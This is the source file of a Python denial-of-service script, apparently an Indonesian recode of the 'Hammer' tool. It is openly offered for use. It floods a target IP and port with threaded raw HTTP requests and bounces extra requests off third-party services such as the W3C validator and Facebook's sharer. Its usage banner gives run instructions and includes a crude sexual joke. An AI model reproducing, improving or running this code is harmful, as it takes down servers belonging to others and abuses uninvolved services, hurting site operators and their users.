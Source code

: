 # teen-dos
#!/usr/bin/python3
# -*- coding: utf-8 -*-
#///////////////////////////////////////////////////////////////////////////////
#///////////////////////////////////////////////////////////////////////////////
#////                       _            _  __                              ////
#////                      | |          (_)/ _|                             ////
#////                   ___| |_   _  ___ _| |_ ___ _ __                     ////
#////                  |_  / | | | |/ __| |  _/ _ \ '__|                    ////
#////                   / /| | |_| | (__| | ||  __/ |                       ////
#////                  /___|_|\__,_|\___|_|_| \___|_|                       ////
#////                                                                       ////
#///////////////////////////////////////////////////////////////////////////////
#///////////////////////////////////////////////////////////////////////////////
# Script ini recode dari 
# python 3.3.2+ Hammer Dos Script v.1
# by Can Yalçın


from queue import Queue
from optparse import OptionParser
import time,sys,socket,threading,logging,urllib.request,random

def user_agent():
	global uagent
	uagent=[]
	uagent.append("Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.0) Opera 12.14")
	uagent.append("Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:26.0) Gecko/20100101 Firefox/26.0")
	uagent.append("Mozilla/5.0 (X11; U; Linux x86_64; en-US; rv:1.9.1.3) Gecko/20090913 Firefox/3.5.3")
	uagent.append("Mozilla/5.0 (Windows; U; Windows NT 6.1; en; rv:1.9.1.3) Gecko/20090824 Firefox/3.5.3 (.NET CLR 3.5.30729)")
	uagent.append("Mozilla/5.0 (Windows NT 6.2) AppleWebKit/535.7 (KHTML, like Gecko) Comodo_Dragon/16.1.1.0 Chrome/16.0.912.63 Safari/535.7")
	uagent.append("Mozilla/5.0 (Windows; U; Windows NT 5.2; en-US; rv:1.9.1.3) Gecko/20090824 Firefox/3.5.3 (.NET CLR 3.5.30729)")
	uagent.append("Mozilla/5.0 (Windows; U; Windows NT 6.1; en-US; rv:1.9.1.1) Gecko/20090718 Firefox/3.5.1")
	return(uagent)


def my_bots():
	global bots
	bots=[]
	bots.append("http://validator.w3.org/check?uri=")
	bots.append("http://www.facebook.com/sharer/sharer.php?u=")
	return(bots)


def bot_hammering(url):
	try:
		while True:
			req = urllib.request.urlopen(urllib.request.Request(url,headers={'User-Agent': random.choice(uagent)}))
			print("\033[94mLucita luna mengelus target...\033[0m")
			time.sleep(.1)
	except:
		time.sleep(.1)


def down_it(item):
	try:
		while True:
			packet = str("GET / HTTP/1.1\nHost: "+host+"\n\n User-Agent: "+random.choice(uagent)+"\n"+data).encode('utf-8')
			s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
			s.connect((host,int(port)))
			if s.sendto( packet, (host, int(port)) ):
				s.shutdown(1)
				print ("\033[92m",time.ctime(time.time()),"\033[0m \033[94m <--Lucita Luna memukul target!--> \033[0m")
			else:
				s.shutdown(1)
				print("\033[91mBerhenti<->ah\033[0m")
			time.sleep(.1)
	except socket.error as e:
		print("\033[91mServer tumbang! Lucita luna berhasil\033[0m")
		#print("\033[91m",e,"\033[0m")
		time.sleep(.1)


def dos():
	while True:
		item = q.get()
		down_it(item)
		q.task_done()


def dos2():
	while True:
		item=w.get()
		bot_hammering(random.choice(bots)+"http://"+host)
		w.task_done()


def usage():
	print (''' \033[92m	
	╦  ┬ ┬┌─┐┬┌┬┐┌─┐  ╔╦╗╔╦╗┌─┐╔═╗
	║  │ ││  │ │ ├─┤   ║║ ║║│ │╚═╗
	╩═╝└─┘└─┘┴ ┴ ┴ ┴  ═╩╝═╩╝└─┘╚═╝
	Pukulan Lucita Luna Dos Script v.1
	Pembuat tidak bertanggung jawab jika digunakan untuk melawan hukum.
	Pembuat tidak bertanggung jawab jika Lucita Luna hamil :).
	Script ini recode ke bahasa indonesia dari script Hammer v.1 \n
	cara pakai : python3 pukul.py [-s] [-p] [-t]
	contoh : python3 pukul.py -s 192.168.0.1 -p 80 -t 135	
	-h : help
	-s : alamat ip target
	-p : port target, contoh 80
	-t : turbo default nya 135 \033[0m''')
	sys.exit()


def get_parameters():
	global host
	global port
	global thr
	global item
	optp = OptionParser(add_help_option=False,epilog="Hammers")
	optp.add_option("-q","--quiet", help="set logging to ERROR",action="store_const", dest="loglevel",const=logging.ERROR, default=logging.INFO)
	optp.add_option("-s","--server", dest="host",help="attack to server ip -s ip")
	optp.add_option("-p","--port",type="int",dest="port",help="-p 80 default 80")
	optp.add_option("-t","--turbo",type="int",dest="turbo",help="default 135 -t 135")
	optp.add_option("-h","--help",dest="help",action='store_true',help="help you")
	opts, args = optp.parse_args()
	logging.basicConfig(level=opts.loglevel,format='%(levelname)-8s %(message)s')
	if opts.help:
		usage()
	if opts.host is not None:
		host = opts.host
	else:
		usage()
	if opts.port is None:
		port = 80
	else:
		port = opts.port
	if opts.turbo is None:
		thr = 135
	else:
		thr = opts.turbo


# reading headers
global data
headers = open("headers.txt", "r")
data = headers.read()
headers.close()
#task queue are q,w
q = Queue()
w = Queue()


if __name__ == '__main__':
	if len(sys.argv) < 2:
		usage()
	get_parameters()
	print("\033[92m",host," port: ",str(port)," turbo: ",str(thr),"\033[0m")
	print("\033[94mLucita luna melakukan Pengecekan...\033[0m")
	user_agent()
	my_bots()
	time.sleep(5)
	try:
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect((host,int(port)))
		s.settimeout(1)
	except socket.error as e:
		print("\033[91mKesalahan : Cek lagi ip and port target\033[0m")
		usage()
	while True:
		for i in range(int(thr)):
			t = threading.Thread(target=dos)
			t.daemon = True  # if thread is exist, it dies
			t.start()
			t2 = threading.Thread(target=dos2)
			t2.daemon = True  # if thread is exist, it dies
			t2.start()
		start = time.time()
		#tasking
		item = 0
		while True:
			if (item>1800): # for no memory crash
				item=0
				time.sleep(.1)
			item = item + 1
			q.put(item)
			w.put(item)
		q.join()
		w.join()

